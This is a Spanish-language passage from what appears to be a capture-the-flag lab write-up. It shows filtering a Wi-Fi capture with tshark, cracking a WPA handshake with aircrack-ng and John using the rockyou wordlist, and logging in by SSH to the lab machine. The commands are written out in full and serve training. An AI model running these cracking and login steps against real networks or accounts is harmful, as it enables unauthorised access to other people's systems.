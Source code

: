```bash
tshark -r captured.cap 2>/dev/null
```

o filtrado por deautentificacion

```bash
tshark -r captured.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null
```

#### Crackeo con Aircrack-ng {-}

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt captrured.cap
```

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequeñito que contiene la palabra *icar*

```bash
grep "icar" /usr/share/wordlists/rockyou.txt > dictionary.txt
```

```bash
aircrack-ng -w dictionary.txt captured.cap
```

Ya encontramos la contraseña.

#### Crackeo con John {-}

Extraemos lo que nos interesa del fichero **captured.cap** en un fichero mas pequeñito que se llama Captura.hccap que con la utilidad
**hccap2john** no permite transformarlo en un hash compatible con **John**

```bash
aircrack-ng -J Captura captured.cap
hccap2john Captura.hccap > hash
john -wordlist=/usr/share/wordlists/rockyou.txt hash
```

### Conexion a la maquina victima{-}

Ahora que tenemos un usuario potencial y una contraseña, intentamos conectar con ssh al puerto 2222

```bash
ssh icarus@10.10.10.83
```

Con la contraseña encontrada no nos funciona.
Intentamos con el nombre turbio de esta red inalambrica como contraseña.

**Y PA DENTRO**

### Investigacion de la maquina victima {-}
